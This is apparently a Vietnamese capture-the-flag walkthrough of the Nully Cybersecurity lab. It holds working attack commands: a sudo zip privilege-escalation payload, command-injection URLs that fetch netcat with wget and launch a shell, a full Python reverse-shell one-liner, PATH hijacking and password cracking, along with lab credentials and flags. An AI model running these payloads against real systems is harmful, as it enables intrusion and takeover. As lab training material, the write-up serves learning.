


# Nully CyberSecurity
***
## Cấu hình lại card mạng cho máy ảo Nully
Máy Nully để giao diện mạng ở chế độ NAT
Thực hiện reset lại máy ảo bằng cách sử dụng VM->Power->Restart Guest
Có thể phải thực hiện 1 vài lần cho tới khi hiện ra menu Boot như hình dưới. Chọn “Advanced options for Ubuntu” rồi sau đó nhấn phím “e” để cấu hình.


Sửa và cấu hình đoạn “ro recovery nomodeset” thành “rw init=/bin/bash” như hình sau


Ấn tổ hợp phím Ctrl – X (hoặc F10) để boot lại OS. Chọn “recovery mode”


Tại màn hình boot, sử dụng lệnh “passwd” để reset mật khẩu hiện tại.
Sau đó sử dụng lệnh exec /sbin/init để khởi động lại hệ thống.


Đăng nhập vào máy ảo Nully với toàn khoản root và mật khẩu vừa đặt lại ở bước trên.
Sử dụng lệnh “ip a” để kiểm tra giao diện mạng. Có thể thấy card ens33 chưa nhận thông tin cấu hình. Đó chính là lý do tại sao chúng ta không dò quét được địa chỉ IP của máy Nully.


Sử dụng lệnh "nano /etc/netplan/00-installer-config.yaml" để cấu hình card mạng
Trong trường hợp này tên card mạng đang bị sai nên chúng ta sửa "enp0s3" thành "ens33" (cho trùng với tên card mạng ở phía trên).


Sử dụng lệnh “reboot” để khởi động lại hệ thống. Sau đó dùng lệnh “ip a” để kiểm tra và thấy rằng giao diện ens33 đã nhận địa chỉ IP 192.168.132.149/24


***

## Flag1
Tìm được địa chỉ máy của victim: `192.168.132.149`


Tiến hành dò quét với nmap


Truy cập web


Theo rule không được attack port 80, 8000, 9000. Vậy ta phải attack vào 2 port 110 và 2222.
```sh
telnet 192.168.18.136 110
USER pentester
PASS qKnGByeaeQJWTjj2efHxst7Hu0xHADGO
LIST
```


Từ email ta có thể dự đoán user có liên quan từ Bob Smith. Lọc các từ liên quan đến bob để brute force password
`grep bobby /usr/share/wordlists/rockyou.txt > wordlist.txt`


Tìm được password: bobby1985, ssh vào kiểm tra sudo -l thấy rằng ta có khả năng chạy `check.sh` với tư cách là người dùng my2user.


Chạy thử script


Ta thêm /bin/bash để khi thực thi dưới quyền my2user sẽ tạo một shell


Tiến hành leo thang sang my2user. Sử dụng sudo -l thấy rằng có khả năng chạy lệnh `zip` với quyền root mà không cần mật khẩu


Tham khảo https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/ ta thấy có thể dùng payload để leo lên root
``` 
sudo zip 1.zip check.sh -T --unzip-command="sh -c /bin/bash"
``` 



> Flag1: 2c393307906f29ee7fb69e2ce59b4c8a 

Tạo backdoor bằng ssh để về sau ssh một phát lên root luôn chứ không phải leo qua my2user.


***
## Flag2
Pivoting đề cập đến một phương pháp được sử dụng bởi những người kiểm tra thâm nhập sử dụng hệ thống bị xâm nhập để tấn công các hệ thống khác trên cùng một mạng để tránh các hạn chế như cấu hình tường lửa, có thể cấm truy cập trực tiếp vào tất cả các máy. Ví dụ: nếu kẻ tấn công xâm phạm máy chủ web trên mạng công ty, thì kẻ tấn công có thể sử dụng máy chủ web bị xâm nhập để tấn công các hệ thống khác trên mạng hoặc trong nội bộ công ty. Những kiểu tấn công này thường được gọi là tấn công nhiều lớp. Pivoting còn được gọi là island hopping.
Cài đặt netdiscover trên MailServer


Sau khi cài netdiscover chạy lệnh netdiscover -i eth0 -r 172.17.0.0/16 để tìm ra các dịch vụ khác trong mạng nội bộ, /16 là vì subnetmask là 255.255.0.0


Chúng ta có thể bỏ qua 172.17.0.1 vì nó là Gateway
172.17.0.2 Là DataCenter


172.17.0.3 Là WebServer




172.17.0.5 Là MailServer


Vì 172.17.0.3 có port 80, nên ta sẽ attack vào đó để lên root web server.
Ta forward port về local để dễ attack trên máy mình luôn
`ssh -L 8000:172.17.0.3:80 root@192.168.132.149 -p 2222 -i id_rsa`


Sử dụng dirsearch để tìm các thư mục và tệp tin trên trang web


Truy cập file robots.txt xem


Truy cập /ping


Dùng param host để xem có gì lạ không


Ở đây dính lỗi command injection, do vậy ta đi tìm cách RCE.
Để làm được điều đó ta cần sử dụng netcat và cả 2 máy đều chưa có netcat. Với máy MailServer thì đơn giản chỉ cần tải về thôi


Nhưng với máy web server thì phải lòng vòng hơn, ta phải public file binary của nc lên để máy 172.17.0.3 tải về


http://localhost:8000/ping/ping.php?host=; wget http://172.17.0.5:8080/nc
http://localhost:8000/ping/ping.php?host=; chmod 777 nc
http://localhost:8000/ping/ping.php?host=; ls -la nc; pwd


http://localhost:8000/ping/ping.php?host=; /var/www/html/ping/nc 172.17.0.5 9000 -e /bin/bash
Thử dùng nc để tạo revshell nhưng không được.
Dùng payload python3
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.5",9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```


Có 2 user trong /etc/passwd ta cần chú ý đến
```
find / -type f -user 1001 2>/dev/null
find / -type f -user 1000 2>/dev/null
```


Đọc file secret của Oliver ta nhận được thông tin đăng nhập. SSH vào
***my password - 4hppfvhb9pW4E4OrbMLwPETRgVo2KyyDTqGF***


Vừa ta đã biết oscar là chủ sở hữu của python3 do vậy payload
`python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
ta sẽ leo sang oscar.


Đăng nhập vào oscar


Chương trình current-date trả về thời gian hiện tại


Do đã check strings nên mình đoán rằng nó chỉ call đến chương trình date và lấy kết quả in ra thôi
Kiểm tra `$PATH`


Bây giờ nếu mình gán đường dẫn /home/oscar vào `$PATH` export PATH=/home/oscar:`$PATH` thì `$PATH` mới sẽ thành như này


vì nó call đến date theo thứ tự trong $PATH nên ta đơn giản chỉ cần tạo program date chứa /bin/bash là khi chạy current-date nó sẽ excute /bin/bash với quyền root và ta có thể leo lên root rồi.


>FLAG2: 7afc7a60ac389f8d5c6f8f7d0ec645da
***
## Flag3
Kết nối tới DataCenter tải 2 file về


File .backup.zip bị khóa


Tải .backup.zip về local


```
zip2john backup.zip > hash.txt
john hash.txt
```
Tìm được mật khẩu là `1234567890`


SSH vào DataCenter với `donald:HBRLoCZ0b9NEgh8vsECS`
Tải linpeas về thông qua MailServer để tìm kiếm lỗ hổng và các cấu hình không an toàn


Sau khi chạy tìm được Unknown SUID binary của screen-4.5.0


Search tìm được script exploit https://www.exploit-db.com/raw/41154


>Flag3:6cb25d4789cdd7fa1624e6356e0d825b
